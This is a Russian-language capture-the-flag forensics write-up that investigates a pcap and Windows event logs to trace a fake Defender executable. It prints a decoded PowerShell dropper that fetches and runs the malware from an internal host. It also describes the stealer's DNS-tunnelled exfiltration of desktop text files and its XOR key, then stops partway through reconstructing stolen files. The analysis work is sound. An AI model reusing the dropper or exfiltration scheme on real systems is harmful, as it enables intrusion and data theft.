### В задании получаем архив со следующим содержимым:

```
┌──(root㉿scrock)-[~/mnt/chall1/task]
└─# ls -la
total 117480
drwxrwxrwx 1 root root         0 Jul 22 07:18 .
drwxrwxrwx 1 root root         0 Jul 28 07:07 ..
drwxrwxrwx 1 root root     81920 Jun 25 00:45 Logs
-rwxrwxrwx 1 root root 120216748 Jun 24 23:48 task.pcapng
```

```
┌──(root㉿scrock)-[~/mnt/chall1/task]
└─# file task.pcapng 
task.pcapng: pcapng capture file - version 1.0
```

```
┌──(root㉿scrock)-[~/mnt/chall1/task]
└─# ls -la Logs               
total 41952
drwxrwxrwx 1 root root   81920 Jun 25 00:45  .
drwxrwxrwx 1 root root       0 Jul 22 07:18  ..
-rwxrwxrwx 1 root root 1118208 Jun 24 23:46  Application.evtx
-rwxrwxrwx 1 root root   69632 Jun 24 11:31  HardwareEvents.evtx
-rwxrwxrwx 1 root root   69632 Jun 24 11:31 'Internet Explorer.evtx'
-rwxrwxrwx 1 root root   69632 Jun 24 11:31 'Key Management Service.evtx'
-rwxrwxrwx 1 root root 1052672 Jun 24 23:20  Microsoft-Client-Licensing-Platform%4Admin.evtx                                                              
-rwxrwxrwx 1 root root   69632 Jun 24 18:57  Microsoft-Windows-AAD%4Operational.evtx                                                                      
-rwxrwxrwx 1 root root   69632 Jun 24 23:46  Microsoft-Windows-Application-Experience%4Program-Compatibility-Assistant.evtx
...
```

### Получаем трафик и evtx журналы в папке Logs:

EVTX — это формат журнала событий в операционных системах Windows. Он используется для записи и хранения журналов событий для обслуживания системы и устранения неполадок.

Каждый файл EVTX содержит несколько записей. Записи обычно содержат информацию, касающуюся ошибок приложений и системы, предупреждений, действий пользователя, событий безопасности и сетевой активности.

Данные журнала можно использовать как для диагностики системы, так и для обеспечения соблюдения правил аудита.

## Q1) Когда начался инцидент (дд:мм:гггг_чч:мм:сс)?

Первым делом смотрим не попали ли к нам какие то вредоносные файлы по сети:

### Открываем task.pcapng в wireshark, выставляем фильтр

```
http
```

### Находим следующий запрос на загрузку исполняемого файла MsMpEngine.exe:



Данный файл похож на вредоносный так как заметен закос под MsMpEng.exe

MsMpEng.exe — основной фоновый процесс встроенного в Windows 10 антивируса «Защитник Windows». 
Он постоянно запущен по умолчанию и выполняет сканирование файлов, процессов и программ в реальном времени для обнаружения угроз.

### Через Файл -> Экспортировать объекты -> http в Wireshark устанавливаем этот файл



### Проверяем файл:

```
┌──(root㉿scrock)-[~/mnt/chall1/task]
└─# file MsMpEngine.exe 
MsMpEngine.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
                                                                             
┌──(root㉿scrock)-[~/mnt/chall1/task]
└─# sha256sum MsMpEngine.exe       
fb4e22809cf28be7e7efa38718ce386044775d6ffafbfd391b43ec0f3afd4439  MsMpEngine.exe
```

### Хэш закидываем на Virustotal:

https://www.virustotal.com/gui/file/fb4e22809cf28be7e7efa38718ce386044775d6ffafbfd391b43ec0f3afd4439

Вердикт - это вредонос!



Теперь берем время загрузки файла за время начала инцидента



## Ответ: caplag{25:06:2025_06:40:49}

## Q2) Как называется вредоносный файл? (filename.ext)

## Ответ: caplag{MsMpEngine.exe}

## Q3) SHA1 хеш сумма малвари?

```
┌──(root㉿scrock)-[~/mnt/chall1/task]
└─# sha1sum MsMpEngine.exe  
8ccc992780eade907e5270b3f6a87041fb3ccbfc  MsMpEngine.exe
```

## Ответ: caplag{8ccc992780eade907e5270b3f6a87041fb3ccbfc}

## Q4) в какой папке хранилcя малварь (полный путь)?

### Установим инструмент Эрика Циммермана EvtxECmd и распарсим evtx журналы:

Я решил сразу распарсить все журналы, так сказать на будущее:

```
PS C:\Users\scrock_\Desktop\softs\EvtxECmd\EvtxeCmd> Get-ChildItem "C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\Logs\*.evtx" | ForEach-Object {
>>     $outputName = $_.BaseName + ".json"
>>     .\EvtxECmd.exe -f $_.FullName --json "C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\evtx_results"
>>     $tempFile = Get-ChildItem "C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\evtx_results\*.json" -File | Sort-Object LastWriteTime | Select-Object -Last 1
>>     Rename-Item -Path $tempFile.FullName -NewName $outputName
>> }
```

### Для начала нужно проверить журнал Microsoft-Windows-PowerShell%4Operational.evtx (попробуем понять как вообще малварь сюда попала):

```
┌──(root㉿scrock)-[~/mnt/chall1/task/evtx_results]
└─# cat Microsoft-Windows-PowerShell%4Operational.json 
```

Тут мы находим следующую команду:

```
{"PayloadData1":"Path: ","PayloadData2":"ScriptBlockText: 
$compressed = 'H4sIAAAAAAAA/5TOzU6DQBAH8FcZNz1AIgv0oC3Ek6WRpB9YanrphbJTO2a7S5ZRJMZ3N3jQxPTiZQ7z8fvPSJGDOxAjNG/JU5ltis16ni+yvTxT7WxrjyxSoCN4V94WWw6Kik8wXPk+fMAKuyBnPMN33fYNwowc1mxdD7+78JnC6NXpIenE3CRhGE/HMr6ZyPg2lvF4mkyiKBIpeIO4PrxgzbBCljs83GtCw76c2c5oW6k5afTEwIXLdtlk5pkMSnxHcQ1iSNv/afv/ZcvHBTHK3DA620il9Q99YeSnUHLlOCicrbFtLz8BwY6Msl3JvUZ4IKXQfAUAAP//NycKn30BAAA='; 
$bytes = [System.Convert]::FromBase64String($compressed); $stream = New-Object IO.MemoryStream(, $bytes); $decompressed = New-Object IO.Compression.GzipStream($stream, [IO.Compression.CompressionMode]::Decompress); 
$reader = New-Object IO.StreamReader($decompressed); $obfuscated = $reader.ReadToEnd(); Invoke-Expression $obfuscated","MapDescription":"Contains contents of scripts run","ChunkNumber":0,"Computer":"DESKTOP-JDMCC6F"
```

Это обфусцированный PowerShell скрипт, который:

1. **Декодирует Base64**  
   Извлекает закодированные данные из строки в формате Base64.

2. **Распаковывает Gzip**  
   Деархивирует сжатые данные с использованием алгоритма Gzip.

3. **Выполняет распакованный код через Invoke-Expression**  
   Исполняет декодированные и распакованные команды PowerShell с помощью `Invoke-Expression`.

### Получаем исходный код:

```
┌──(root㉿scrock)-[~/mnt/chall1/task/evtx_results]
└─# echo "H4sIAAAAAAAA/5TOzU6DQBAH8FcZNz1AIgv0oC3Ek6WRpB9YanrphbJTO2a7S5ZRJMZ3N3jQxPTiZQ7z8fvPSJGDOxAjNG/JU5ltis16ni+yvTxT7WxrjyxSoCN4V94WWw6Kik8wXPk+fMAKuyBnPMN33fYNwowc1mxdD7+78JnC6NXpIenE3CRhGE/HMr6ZyPg2lvF4mkyiKBIpeIO4PrxgzbBCljs83GtCw76c2c5oW6k5afTEwIXLdtlk5pkMSnxHcQ1iSNv/afv/ZcvHBTHK3DA620il9Q99YeSnUHLlOCicrbFtLz8BwY6Msl3JvUZ4IKXQfAUAAP//NycKn30BAAA=" | base64 -d | gzip -d
$dir = "$env:USERPROFILE\.microsoft"; if (!(Test-Path $dir)) { New-Item -ItemType Directory -Path $dir }; $url = "http://192.168.171.129:8000"; 
(New-Object Net.WebClient).DownloadFile("$url/MsMpEngine.exe", "$dir\MsMpEngine.exe"); 
(New-Object Net.WebClient).DownloadFile("$url/SQLite.Interop.dll", "$dir\SQLite.Interop.dll"); 
Start-Process "$dir\MsMpEngine.exe" -WindowStyle Hidden
```

Данный скрипт выполняет следующие действия:

1. **Создание скрытой директории**  
   Создает скрытую папку в домашней директории пользователя (`$env:USERPROFILE`)

2. **Загрузка файлов с удаленного сервера**  
   Загружает вредоносные компоненты:
   - `MsMpEngine.exe` (маскировка под компонент Windows Defender)
   - `SQLite.Interop.dll` (библиотека для работы с SQLite)

3. **Запуск вредоносного исполняемого файла**  
   Выполняет загруженный `MsMpEngine.exe` с повышенными привилегиями

4. **Декодирование Base64**  
   Извлекает закодированные данные из строки в формате Base64

5. **Распаковка Gzip**  
   Деархивирует сжатые данные с использованием алгоритма Gzip

6. **Исполнение кода через Invoke-Expression**  
   Запускает декодированные и распакованные команды PowerShell

Теперь нам нужно узнать кто запустил эту команду, получить SID пользователя мы можем также в Microsoft-Windows-PowerShell%4Operational.json

```
{"ChunkNumber":0,"Computer":"DESKTOP-JDMCC6F","Payload":"{\"EventData\":\"\"}","UserId":"S-1-5-21-4066093945-3834177589-3221255045-1001","Channel":"Microsoft-Windows-PowerShell/Operational","Provider"
:"Microsoft-Windows-PowerShell","EventId":40962,"EventRecordId":"6","ProcessId":4712,"ThreadId":8384,"Level":"Info","Keywords":"0x0",
"SourceFile":"C:\\Users\\scrock_\\Desktop\\a\\iso\\ctf\\EHAX++\\chall1\\task\\Logs\\Microsoft-Windows-PowerShell%4Operational.evtx",
"ExtraDataOffset":0,"HiddenRecord":false,"TimeCreated":"2025-06-25T03:40:24.1211486+00:00","RecordNumber":6}
```

### Далее по SID ищем имя пользователя:

```
┌──(root㉿scrock)-[~/mnt/chall1/task/evtx_results]
└─# cat Security.json | grep -i "S-1-5-21-4066093945-3834177589-3221255045-1001"
```

### Результат:

```
{"PayloadData1":"Target: DESKTOP-JDMCC6F\\PC31 (S-1-5-21-4066093945-3834177589-3221255045-1001)","PayloadData2":"SubjectLogonId: 0x2BC6A","PayloadData3":
"CallerProcessName: C:\\Windows\\explorer.exe","PayloadData4":"CallerProcessI
```

Вывод: Пользователь PC31

## Ответ: caplag{C:\Users\PC31\.microsoft}

## Q5) Укажите айпи адрес и порт, откуда пришел малварь (ip:port)

Все из того же фрейма получаем источник малвари



## Ответ: caplag{https://192.168.171.129:8000}

## Q6) Укажите айпи адрес и доменное имя C2 зловредного сервера, куда поступали запросы (ip:domain).

### Листал трафик и нашел подозрительные dns запросы, похожие на передачу данных C2-серверу





## Ответ: caplag{192.168.0.105:windows-defender.live-control}

## Q7) Реверсните малварь, какой пароль для отправления шифрования данных?

### Тут произошел сильный стоп, потому что к такому я не был готов, часов 6 глупых попыток, но я расскажу как по итогу получилось решить:

Еще раз:

```
┌──(root㉿scrock)-[~/mnt/chall1/task]
└─# file MsMpEngine.exe 
MsMpEngine.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Из вывода команды file видно, что MsMpEngine.exe — это .NET-сборка (указано Mono/.Net assembly).

Откроем файл в dnSpy, если он .NET, то мы увидим декомпилированный код:



### Пройдемся деобфускатором:



### Процесс деобфускации с помощью .NET Reactor Slayer:

1. **Запуск инструмента**  
   ▶️ Запустил `.NET Reactor Slayer`

2. **Загрузка файла**  
   📌 Перетащил `MsMpEngine.exe` в рабочую область программы

3. **Настройка параметров**  
   ⚙️ Оставил опции обработки по умолчанию:  

4. **Запуск обработки**  
   🚀 Начал деобфускацию

5. **Результат**  
   ✅ Получил очищенный файл `MsMpEngine_cleaned.exe`  
   🔍 Проверил результат в dnSpy на читаемость кода



### Открываем Class2.Main (точка входа):



### Тут мы уже можем найти что-то похожее на пароль, пройдемся стоковым de4dot, для восстановления имен

```
C:\Program Files\de4dot>de4dot C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\MsMpEngine_Slayed.exe -o C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\MsMpEngine_Slayed_Cleaned.exe

de4dot v3.1.41592.3405 Copyright (C) 2011-2014 de4dot@gmail.com
Latest version and source code: https://github.com/0xd4d/de4dot

Detected Unknown Obfuscator (C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\MsMpEngine_Slayed.exe)
Cleaning C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\MsMpEngine_Slayed.exe
Renaming all obfuscated symbols
Saving C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\MsMpEngine_Slayed_Cleaned.exe
```

### 🔥 Действия вредоносной программы

### 📌 Этап сбора и передачи данных
1. **Генерация уникального идентификатора**  
   - Собирает системную информацию:
     - 🖥️ Имя компьютера (`MachineName`)  
     - 👤 Имя пользователя (`UserName`)  
     - 🎫 Случайный `GUID`  
   - Формирует строку в формате:  
     ```plaintext
     {MachineName}_{UserName}_{GUID}.txt
     ```

2. **Обработка данных**  
   - 🔢 Разбивает информацию на блоки  
   - 🔐 Двойное шифрование:
     1. XOR с динамическим ключом
     2. Кодирование в Base64

3. **Передача данных**  
   - 📡 Отправка через скрытый метод:  
     ```csharp
     Class1.smethod_1()
     ```

### 📌 Этап кражи документов
4. **Поиск и кража файлов**  
   - 🔍 Сканирует рабочий стол
   - 📝 Ищет файлы с расширением `.txt`  
   - ✂️ Обрабатывает каждый файл блоками по **35 байт**  
   - 📤 Отправляет через тот же механизм (`Class1.smethod_1`)

### 💀 Финальный этап
5. **Самоуничтожение**  
   - 🗑️ Через 1 секунду после выполнения:  
     ```cmd
     timeout /t 1 && del "[путь_к_файлу]"
     ```
   - 🛡️ Использует скрытый режим выполнения:  
     ```csharp
     CreateNoWindow = true
     WindowStyle = Hidden
     ```

## Ответ: caplag{TU№n31iNG}

## Q8) Укажите название первого украденнего файла. (filename.ext)

### Возвращаемся к dns запросам



### Берем первый dns query name:

```
TEBCxz8IhYxwjCgoXFtTCyT5wAlgRd2Vg1eGgWAEcUX5/Z3jWtKJdHlNQfnZ5Zoe0oV0AUFsrfzBtzPDuGg==.PCGW9OVUHB4eOTB6J43r.windows-defender.live-control
```

### Декодируем название:

```python
import base64

encrypted_data = "EBCxz8IhYxwjCgoXFtTCyT5wAlgRd2Vg1eGgWAEcUX5/Z3jWtKJdHlNQfnZ5Zoe0oV0AUFsrfzBtzPDuGg=="
xor_key = "TU№n31iNG"

def decrypt(encrypted: str, key: str) -> str:
    key_bytes = key.encode()
    decrypted = bytes([base64.b64decode(encrypted)[i] ^ key_bytes[i % len(key_bytes)] 
                     for i in range(len(base64.b64decode(encrypted)))])
    return decrypted.decode(errors='ignore')

decrypted_result = decrypt(encrypted_data, xor_key)
print(f"Decrypted: {decrypted_result}")
```

```
(.venv) PS C:\Users\scrock_\Desktop\a\LABS\SEMESTR 9\BD> .\.venv\Scripts\python.exe .\ОТЧЕТЫ\ctf.py
Decrypted: DESKTOP-JDMCC6F_PC31_0157e662-8083-4043-b901-3e0733a2e8d8.txt
```

## Ответ: caplag{DESKTOP-JDMCC6F_PC31_0157e662-8083-4043-b901-3e0733a2e8d8.txt}

## Q9) Какой логин и пароль от сайта root-me у пользователя (login_pass)?

### Далее нам нужно восстановить файлы, создаем директорию files и по примеру выше получаем следующий скрипт:

(Made in GPT)

```python
import subprocess
import base64
import os
import re
from collections import defaultdict

def decode_data(encoded_str, key="TU№n31iNG"):
    decoded_bytes = base64.b64decode(encoded_str)
    key_bytes = key.encode('utf-8')
    return bytes([decoded_bytes[i] ^ key_bytes[i % len(key_bytes)] 
                for i in range(len(decoded_bytes))])

def extract_dns_queries(pcap_file):
    cmd = [
        'tshark', 
        '-r', pcap_file, 
        '-Y', 'dns.qry.name contains "windows-defender.live-control"',
        '-T', 'fields', 
        '-e', 'dns.qry.name'
    ]
    result = subprocess.run(cmd, capture_output=True, text=True)
    return [line.strip() for line in result.stdout.split('\n') if line.strip()]

def reconstruct_files(queries):
    file_data = defaultdict(list)
    pattern = re.compile(r'^([^\.]+)\.([^\.]+)\.windows-defender\.live-control$')
    
    for query in queries:
        if match := pattern.match(query):
            decoded_data = decode_data(match.group(2))
            file_data[match.group(1)].append(decoded_data)
    
    return {
        decode_data(filename).decode('utf-8', errors='replace'): b''.join(parts)
        for filename, parts in file_data.items()
    }

def main():
    pcap_file = r"task.pcapng"
    output_dir = "files"
    
    for filename, data in reconstruct_files(extract_dns_queries(pcap_file)).items():
        safe_name = re.sub(r'[\\/*?:"<>|]', "_", filename)
        with open(os.path.join(output_dir, safe_name), 'wb') as f:
            f.write(data)
        print(f"Saved: {safe_name} ({len(data)} bytes)")

if __name__ == "__main__":
    main()
```

### Результат:

```
┌──(myenv)─(root㉿scrock)-[~/mnt/chall1/task]
